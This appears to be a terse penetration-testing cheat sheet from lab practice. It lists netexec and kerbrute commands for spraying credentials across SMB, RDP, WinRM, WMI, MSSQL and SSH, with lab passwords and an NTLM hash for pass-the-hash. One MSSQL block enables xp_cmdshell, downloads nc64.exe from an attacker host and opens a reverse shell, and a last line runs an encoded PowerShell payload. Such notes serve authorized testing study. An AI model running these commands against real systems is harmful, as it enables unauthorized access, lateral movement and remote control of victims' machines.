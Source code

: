 ## Netexec - Spray credentials

<aside>
💡 When all else fails - take a look at this cheat sheet SPIDER MODULE / ALL IN ONE!

</aside>

[https://github.com/seriotonctf/cme-nxc-cheat-sheet](https://github.com/seriotonctf/cme-nxc-cheat-sheet)

```jsx
kerbrute -domain hutch.offsec -users ./users.txt -dc-ip 192.168.219.122
```

```jsx
netexec smb 192.168.226.172 -u anirudh -p SecureHM --shares
```

```jsx
netexec smb 172.16.229.254 -u Administrator -H 'b2c03054c306ac8fc5f9d188710b0168' --local-auth
```

```jsx
netexec smb 172.16.229.0/24 -u joe -p 'Flowers1' --continue-on-success
```

```jsx
netexec rdp 172.16.191.0/24 -u yoshi -p 'Mushroom!' --continue-on-success
```

```jsx
netexec winrm 172.16.238.83 -u 'wario' -p 'Mushroom!'
```

```jsx
netexec wmi 172.16.238.83 -u 'wario' -p 'Mushroom!'
```

```jsx
netexec sql 10.10.137.148 -u sql_svc -p Dolphin1

impacket-mssqlclient sql_svc@10.10.137.148 -windows-auth
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';

EXECUTE xp_cmdshell 'powershell iwr -uri http://10.10.137.147:8888/nc64.exe -OutFile C:/Users/Public/nc64.exe';
EXECUTE xp_cmdshell 'C:/Users/Public/nc64.exe 10.10.137.147 443 -e cmd';
```

```jsx
netexec ssh 10.10.137.148 -u sql_svc -p Dolphin1
```

```jsx
netexec smb 10.10.10.10 -u Username -p Password -X 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AY...AKAApAA=='
```
